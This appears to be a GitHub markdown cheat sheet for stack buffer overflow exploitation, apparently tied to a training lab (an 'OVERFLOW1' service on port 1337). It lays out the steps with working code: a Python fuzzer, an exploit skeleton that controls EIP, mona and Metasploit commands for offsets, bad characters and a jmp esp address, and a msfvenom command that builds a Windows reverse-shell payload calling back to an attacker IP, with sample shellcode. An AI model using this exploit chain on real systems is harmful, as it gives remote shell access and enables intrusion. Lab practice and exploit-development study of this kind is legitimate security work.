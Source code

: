 # BufferOverflow

## Registers

## nasm

Get opcode: 

```console
$ locate nasm_shell.rb

$ /usr/shares/metasploit-framework/tools/exploit/nasm_shell.rb
>>> jmp esp
00000000  FFE4		jmp esp
```

## Mona

Set up working directory:
`!mona config -set workingfolder c:\mona\%p`



## Fuzzing

Make note of the largest number of bytes

```python
#!/usr/bin/env python3
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5
prefix = "OVERFLOW1 "
string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

## Crash Replication and Controlling EIP

```python
#!/usr/bin/env python3
import socket

ip = "MACHINE_IP"
port = 1337
prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Create a cyclic pattern 400 bytes longer than the crash bytes 

```console
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600

```

Copy that string to **payload**
Run the python script and crash binary again.
Check the EIP offset:

	- with mona `!mona findmsp -distance 600`
	or
	- with metasploit `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP adress>`

Set the offset in python script and change payload to "" and change `retn` to `BBBB`
Crash the server again, the EIP register should now show 4 B's -> `42424242`

## Finding bad chars

Generate a bytearray using mona (excluding \x00): `!mona bytearray -b "\x00"`

Now generate a string which is identical to the bytearray with python (excluding \x00)

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Update exploit script **payload** with string generated from the above python script.
Crash binary again and check with mona for bad chars: `!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>`

Check one after one. 
Generate a new byte array with mona e.g. `!mona bytearray -b "\x00\xa2` and remove "\xa2" from payload.
Crash binary again and compare the bytearray with esp address till message `Unmodified` appears.

## Finding jmp point

Run mona `!mona jmp -r esp -cpb "<all bad chars>"`
Choose an address and update exploit.py with the address at var `retn`
Address must be backwards! (little endian)
e.g. \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit

## Generate payload

```console
$ msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<all bad chars>" -f c
```

Copy generated C string without semicolon to exploit.py under payload

```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

## Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

`padding = "\x90" * 16`

## Exploit

Run crash again to get a reverse shell

Opt:
Set breakpoint to jmp point address and go steps further to watch NOPs and decoding the payload.